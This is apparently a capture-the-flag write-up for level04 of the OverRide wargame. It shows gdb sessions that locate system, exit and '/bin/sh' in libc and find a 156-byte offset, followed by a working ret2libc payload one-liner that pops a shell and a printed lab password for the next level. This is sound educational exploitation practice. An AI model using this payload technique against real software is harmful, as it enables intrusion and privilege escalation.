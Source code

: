 # level04

![title screen](Ressources/title_screen04.png)

```sh
level04@OverRide:~$ ./level04
Give me some shellcode, k
Koby
child is exiting...
level04@OverRide:~$ ./level04 Sengoku
Give me some shellcode, k
Tsuru
child is exiting...
level04@OverRide:~$
```

![binary](Ressources/binary_04.png)

The `main` function is as follows:
- A `fork` is made, the parent `process` waits for the `child` to finish.
- The `child process` is traced and is asked for shellcode `Give me some shellcode, k` and open the standard input by calling the function `gets`.

## WE HAVE ALL INGREDIENTS TO FINISH THIS LEVEL FAST

# <u>Vulnerability</u> : Stacked-Based Buffer Overflow Attack : `Ret2libc`

Yes, we can use a `shellcode` like the program asks us to do, but first we can try a buffer overflow.

> Again, there is 3 unused function, but here we simply ignore them.

## 1. The combo `system + exit + /bin/sh`

```sh
(gdb) b main
Breakpoint 1 at 0x80486cd
(gdb) r
Starting program: /home/users/level04/level04

Breakpoint 1, 0x080486cd in main ()
(gdb) print system
$1 = {<text variable, no debug info>} 0xf7e6aed0 <system>
(gdb) print exit
$2 = {<text variable, no debug info>} 0xf7e5eb70 <exit>
(gdb) info proc map
process 1704
Mapped address spaces:

	Start Addr   End Addr       Size     Offset objfile
	 0x8048000  0x8049000     0x1000        0x0 /home/users/level04/level04
	 0x8049000  0x804a000     0x1000        0x0 /home/users/level04/level04
	 0x804a000  0x804b000     0x1000     0x1000 /home/users/level04/level04
	0xf7e2b000 0xf7e2c000     0x1000        0x0
	0xf7e2c000 0xf7fcc000   0x1a0000        0x0 /lib32/libc-2.15.so
	0xf7fcc000 0xf7fcd000     0x1000   0x1a0000 /lib32/libc-2.15.so
	0xf7fcd000 0xf7fcf000     0x2000   0x1a0000 /lib32/libc-2.15.so
	0xf7fcf000 0xf7fd0000     0x1000   0x1a2000 /lib32/libc-2.15.so
	0xf7fd0000 0xf7fd4000     0x4000        0x0
	0xf7fda000 0xf7fdb000     0x1000        0x0
	0xf7fdb000 0xf7fdc000     0x1000        0x0 [vdso]
	0xf7fdc000 0xf7ffc000    0x20000        0x0 /lib32/ld-2.15.so
	0xf7ffc000 0xf7ffd000     0x1000    0x1f000 /lib32/ld-2.15.so
	0xf7ffd000 0xf7ffe000     0x1000    0x20000 /lib32/ld-2.15.so
	0xfffdd000 0xffffe000    0x21000        0x0 [stack]
(gdb) find 0xf7e2c000, 0xf7fcc000, "/bin/sh"
0xf7f897ec
1 pattern found.
(gdb) x/s 0xf7f897ec
0xf7f897ec:	 "/bin/sh"
(gdb)
```

- `system` : `0xf7e6aed0` (`\xd0\xae\xe6\xf7`)
- `exit` : `0xf7e5eb70` (`\x70\xeb\xe5\xf7`)
- `/bin/sh` : `0xf7f897ec` (`\xec\x97\xf8\xf7`)

## 2. Finding the offset

```sh
(gdb) r
Starting program: /home/users/level04/level04
Give me some shellcode, k
Aa0Aa1Aa2Aa3Aa4Aa5Aa6Aa7Aa8Aa9Ab0Ab1Ab2Ab3Ab4Ab5Ab6Ab7Ab8Ab9Ac0Ac1Ac2Ac3Ac4Ac5Ac6Ac7Ac8Ac9Ad0Ad1Ad2Ad3Ad4Ad5Ad6Ad7Ad8Ad9Ae0Ae1Ae2Ae3Ae4Ae5Ae6Ae7Ae8Ae9Af0Af1Af2Af3Af4Af5Af6Af7Af8Af9Ag0Ag1Ag2Ag3Ag4Ag5Ag
[...]
[...]
[...]
[nothing...]
^C
Program received signal SIGINT, Interrupt.
0xf7fdb435 in __kernel_vsyscall ()
(gdb) 
```

## _Why the program is not crashing ?_

The program does not crash despite the buffer overflow because the parent process is monitoring and controlling the execution of the child process using `ptrace()`. Here are some possible reasons:

1. **Monitoring with `ptrace()`**:
   - The parent process uses `ptrace()` to monitor the execution of the child process. If the child process attempts to execute an `exec()`, the parent process detects this and kills the child process.
   - This prevents the child process from crashing the program by executing malicious code.

2. **Infinite loop in the parent process**:
   - The parent process enters an infinite `do...while` loop that waits for the child process to terminate. If the child process does not terminate normally, the program continues to wait and check the state of the child process.
   - This can give the impression that the program is in an infinite loop, but in reality, it is simply waiting for the child process to terminate, and the reality is the child process is **crashing**.

## _So, what we can do ?_

We follow the `parent process`, and we NEED to follow the `child process` to exploit the buffer overflow.

And `gdb` has a command to do that, **`set follow-fork-mode <mode>`** :

![follow-fork-mode](Ressources/follow_fork_mode.png)

We can use the `set follow-fork-mode child` to follow the `child process` and see what happend in the `child process`, where is the `gets` function in called.

```sh
(gdb) set follow-fork-mode child
(gdb) r
Starting program: /home/users/level04/level04
[New process 1718]
Give me some shellcode, k
Aa0Aa1Aa2Aa3Aa4Aa5Aa6Aa7Aa8Aa9Ab0Ab1Ab2Ab3Ab4Ab5Ab6Ab7Ab8Ab9Ac0Ac1Ac2Ac3Ac4Ac5Ac6Ac7Ac8Ac9Ad0Ad1Ad2Ad3Ad4Ad5Ad6Ad7Ad8Ad9Ae0Ae1Ae2Ae3Ae4Ae5Ae6Ae7Ae8Ae9Af0Af1Af2Af3Af4Af5Af6Af7Af8Af9Ag0Ag1Ag2Ag3Ag4Ag5Ag

Program received signal SIGSEGV, Segmentation fault.
[Switching to process 1718]
0x41326641 in ?? ()
(gdb)
```

## _AHHHHHH, the program crashes! Well, no... The program running in the child process launched by the `fork` function is crashing._

Now, we can obtain the offset : it's `156 bytes`.

## 3. The payload

The classico monster trio for `Ret2libc` :

![The Legendary Trio of the Marine](Ressources/Garp_Sengoku_Tsuru.png)

```sh
level04@OverRide:~$ (python -c 'print "A" * 156 + "\xd0\xae\xe6\xf7" + "\x70\xeb\xe5\xf7" + "\xec\x97\xf8\xf7"'; cat) | ./level04
Give me some shellcode, k
whoami
level05

```

![Usopp going crazy](../assets/Usopp_going_crazy.png)

```sh
cat /home/users/level05/.pass
3v8QLcN5SAhPaZZfEasfmXdwyR59ktDEMAwHF3aN
```

And go to the next level :

```sh
level04@OverRide:~$ su level05
Password:
RELRO           STACK CANARY      NX            PIE             RPATH      RUNPATH      FILE
No RELRO        No canary found   NX disabled   No PIE          No RPATH   No RUNPATH   /home/users/level05/level05
level05@OverRide:~$
```

# level04 complet !

![yeah](../assets/yeah.gif)
